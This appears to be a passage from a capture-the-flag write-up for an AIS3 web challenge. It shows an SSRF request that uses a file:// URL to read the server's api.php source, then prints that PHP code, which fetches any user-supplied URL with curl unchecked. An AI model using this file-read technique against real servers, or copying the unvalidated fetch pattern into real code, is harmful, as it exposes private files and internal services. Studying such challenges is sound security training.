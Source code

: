 ![](https://i.imgur.com/k9yvWzM.jpg)

Looks like SSRF, so let's try read source code.

<http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/api.php>

```php=

<?php
require_once 'session.php';
class BrowsingSession
{
    function __construct()
    {
        $this->history = [];
    }
    function push($url)
    {
        $this->history[] = $url;
    }
    function get_history()
    {
        return $this->history;
    }
    function clear_history()
    {
        $this->history = [];
    }
    static function new()
    {
        return new BrowsingSession();
    }
}
$session = SessionManager::load_from_cookie('sess_id', ['BrowsingSession', 'new']);
if (!isset($_GET['action'])) {
    die();
}
$action = $_GET['action'];
if ($action === 'view' && isset($_GET['url'])) {
    header("Content-Security-Policy: script-src 'none'");
    $url = $_GET['url'];
    $session->push($url);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_exec($ch);
    curl_close($ch);
} else if ($action === 'get_history') {
    header('Content-Type: application/json');
    echo json_encode($session->get_history());
} else if ($action === 'clear_history') {
    $session->clear_history();
    echo 'OK';
}
```

